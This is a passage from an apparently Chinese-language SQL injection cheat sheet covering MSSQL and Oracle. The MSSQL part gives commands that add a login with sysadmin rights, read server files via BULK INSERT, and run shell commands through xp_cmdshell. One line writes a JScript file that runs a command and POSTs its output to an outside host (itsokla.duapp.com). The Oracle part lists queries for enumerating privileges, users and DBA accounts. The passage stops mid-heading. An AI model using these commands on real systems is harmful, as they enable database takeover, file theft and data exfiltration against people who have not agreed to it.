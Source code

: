 	#添加、删除、设置用户为DBA的操作
	EXEC sp_addlogin 'user', 'pass';
	EXEC sp_droplogin 'user';
	EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin';
	
	#获取DB文件位置信息
	EXEC sp_helpdb master; -- master.mdf位置
文件读写

	#文件读取 (创建临时表，bulk insert读取内容到表)
	CREATE TABLE mydata (line varchar(8000));
	BULK INSERT mydata FROM 'c:\boot.ini';
	DROP TABLE mydata;
	
	#文件读取 (创建临时表，insert & xp_cmdshell读取内容)
	create table mytmp(data varchar(4000)); --
	insert mytmp exec master.dbo.xp_cmdshell 'ipconfig /all'; --
	
	#页面无回显时，读取命令执行内容 (需目标机器可连外网) (先写入JS，然后通过执行JS将命令执行内容，通过ajax发送给接收端)
	exec master.dbo.xp_cmdshell 'echo (function(){var ws=new ActiveXObject("WScript.shell"),cmd="cmd.exe /c dir c:\\";var data=ws.exec(cmd).stdout.ReadAll();var ajax=new ActiveXObject("Microsoft.xmlhttp");ajax.open("POST","http://itsokla.duapp.com/cmd.php",false);ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");ajax.send("cmd="+encodeURIComponent(cmd)+"&data="+encodeURIComponent(encodeURIComponent(data)));})() > c:\e.js' --

##Oracle
获取环境信息

	* 版本信息
	SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;
	SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;
	SELECT version FROM v$instance;

	*用户信息
	SELECT user FROM dual
	SELECT username FROM all_users ORDER BY username;
	SELECT name FROM sys.user$; — priv
	
权限相关

	SELECT * FROM session_privs; — current privs
	SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’; — priv, list a user’s privs
	SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’; — priv, find users with a particular priv
	SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;

列举DBA用户

	SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’; — priv, list DBAs, DBA roles

当前数据库
	
	SELECT global_name FROM global_name;
	SELECT name FROM v$database;
	SELECT instance_name FROM v$instance;
	SELECT SYS.DATABASE_NAME FROM DUAL;
列举数据库
